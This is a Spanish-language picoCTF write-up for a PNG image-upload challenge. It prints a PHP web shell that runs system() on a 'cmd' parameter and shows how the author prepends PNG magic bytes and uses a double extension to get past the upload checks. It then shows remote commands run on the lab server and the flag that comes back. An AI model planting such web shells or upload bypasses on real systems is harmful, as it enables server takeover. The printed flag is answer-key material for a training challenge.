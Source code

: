 #Software #Hacking #WebExplotation #Web #Internet 
# Definición
I found a web app that can help process images: PNG images only!Try it [here](http://atlas.picoctf.net:63789/)!
# Hints
- (none)
# Solución
Primero ingresamos a [[robots.txt]] con la esperanza de encontrar algo que nos pueda guiar.
[http://atlas.picoctf.net:51596/robots.txt](http://atlas.picoctf.net:51596/robots.txt):

User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/  
  
[http://atlas.picoctf.net:51596/instructions.txt](http://atlas.picoctf.net:51596/instructions.txt):  
  
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
  
[[webshell en Php]] -> lo utilizamos para ejecutar algo del lado del servidor (nos apoyamos de [[nano]] para crear el archivo [[PHP|.php]])
  
```bash
┌──(kali㉿kali)-[~]  
└─$ nano webshell.php  
```
  
No podemos subir archivos que no sean .png  
  
```bash
┌──(kali㉿kali)-[~]  
└─$ cp webshell.php webshell.php.png  
```

Al intentar subirlo los magic bytes no coinciden  
```
Error: The file is not a valid PNG image: 3c3f7068  
```
  
```bash
┌──(kali㉿kali)-[~]  
└─$ nano webshell.php.png  
```
  
```php
PNG  
<?php  
if(isset($_GET['cmd'])) {  
        echo "<pre>";  
        system($_GET['cmd']);  
        echo "</pre>";  
}  
?>  
```
  
Verificamos que coincidan los bits magicos  
```bash
┌──(kali㉿kali)-[~]  
└─$ xxd webshell.php.png   
00000000: 504e 470a 3c3f 7068 700a 6966 2869 7373  PNG.<?php.if(iss  
00000010: 6574 2824 5f47 4554 5b27 636d 6427 5d29  et($_GET['cmd'])  
00000020: 2920 7b0a 0965 6368 6f20 223c 7072 653e  ) {..echo "<pre>  
00000030: 223b 0a09 7379 7374 656d 2824 5f47 4554  ";..system($_GET  
00000040: 5b27 636d 6427 5d29 3b0a 0965 6368 6f20  ['cmd']);..echo   
00000050: 223c 2f70 7265 3e22 3b0a 7d0a 3f3e 0a    "</pre>";.}.?>.  
```
  
[http://atlas.picoctf.net:51596/uploads/webshell.php.png?cmd=ls](http://atlas.picoctf.net:51596/uploads/webshell.php.png?cmd=ls)  

Pero no funciona  
  
```bash
┌──(kali㉿kali)-[~]  
└─$ mv webshell.php.png webshell.png.php  
```
  
[http://atlas.picoctf.net:51596/uploads/webshell.png.php?cmd=ls](http://atlas.picoctf.net:51596/uploads/webshell.png.php?cmd=ls)  
```
PNG
webshell.php.png
webshell.png.php
```
  
[http://atlas.picoctf.net:51596/uploads/webshell.png.php?cmd=pwd](http://atlas.picoctf.net:51596/uploads/webshell.png.php?cmd=pwd)  
```
PNG
/var/www/html/uploads
```
  
[http://atlas.picoctf.net:51596/uploads/webshell.png.php?cmd=ls](http://atlas.picoctf.net:51596/uploads/webshell.png.php?cmd=ls) ..  
```
PNG
GQ4DOOBVMMYGK.txt
index.php
instructions.txt
robots.txt
uploads
```
  
[http://atlas.picoctf.net:51596/uploads/webshell.png.php?cmd=cat%20../GQ4DOOBVMMYGK.txt](http://atlas.picoctf.net:51596/uploads/webshell.png.php?cmd=cat%20../GQ4DOOBVMMYGK.txt)  
```
PNG
/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e} */
```
## Respuesta
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e}